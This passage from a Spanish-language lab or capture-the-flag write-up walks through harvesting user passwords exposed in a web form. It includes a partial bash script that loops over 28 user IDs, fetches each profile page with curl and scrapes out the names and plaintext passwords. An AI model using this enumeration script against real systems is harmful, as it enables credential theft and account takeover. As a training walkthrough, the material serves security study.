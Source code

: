 En ese campo pondremos `text` quedando asi:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-21 100342.png" alt=""><figcaption></figcaption></figure>

Por lo que estaremos viendo la contraseña de dicho usuario, tendremos que realizar esto con los `28` usuarios que pueden estar logueados, por lo que vamos a crearnos un pequeño script de `bash` de esta forma:

> searchInfo.sh

```bash
#!/bin/bash

# Limpiar ficheros al inicio
> users.txt
> pass.txt

for id in $(seq 1 28); do
    echo "[+] Fetching ID: $id"
    html=$(curl -s "http://<IP>/customer/user.php?id=$id")

    # Extraer valor completo del campo name
    full_name=$(echo "$html" | grep 'input type="text" id="name"' | sed -n 's/.*value="\([^"]*\)".*/\1/p')
    
    # Quedarse solo con la primera palabra y poner inicial en minúscula
    name=$(echo "$full_name" | awk '{print $1}' | sed 's/^\(.\)/\L\1/')

    # Extraer password
    password=$(echo "$html" | grep 'input type="password" id="oldpassword"' | sed -n 's/.*value="\([^"]*\)".*/\1/p')

    if [ -n "$name" ] || [ -n "$password" ]; then
        echo "    Name: $name"
        echo "    Password: $password"

        # Guardar en ficheros
```